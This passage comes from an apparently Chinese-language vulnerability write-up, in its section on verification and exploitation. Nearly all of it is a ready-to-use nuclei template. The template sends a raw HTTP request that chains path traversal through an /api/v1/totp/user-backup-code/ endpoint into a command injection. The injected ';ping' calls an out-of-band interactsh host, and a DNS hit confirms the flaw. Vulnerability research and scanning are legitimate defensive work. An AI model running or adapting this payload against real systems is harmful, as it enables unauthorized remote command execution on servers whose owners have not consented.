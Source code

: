 [![](assets/1711556149-4c6f9e9274f91178749df225f50325ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122162444-b26f8168-b8ff-1.png)

# 0x03 漏洞验证和利用

这里使用 nuclei 进行验证，使用的模板如下：

```plain
id: poc
info:
  name: 直接发包命令注入
  author: xxx
  severity: high
  description: 直接发包命令注入，影响范围比较大
http:
- raw:
  - |
    GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
    Host: {{Hostname}}
    User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
    Connection: close
    Accept-Encoding: gzip, deflate
  unsafe: false
  cookie-reuse: false
  matchers-condition: or
  matchers:
  - type: word
    part: interactsh_protocol
    words:
    - dns
    condition: or
```
